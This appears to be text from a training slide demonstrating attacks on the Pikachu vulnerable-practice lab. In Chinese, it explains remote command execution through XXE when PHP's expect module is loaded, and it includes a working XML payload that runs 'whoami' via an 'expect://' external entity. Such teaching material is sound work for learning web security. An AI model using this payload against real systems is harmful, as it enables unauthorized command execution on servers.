

Pikachu靶场演示

远程命令执行
在配置不当/开发内部应用情况下（PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上），攻击者能够通过XXE执行代码。
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE any [
<!ENTITY xxe SYSTEM "expect://whoami"> ]>
<user>&xxe;</user>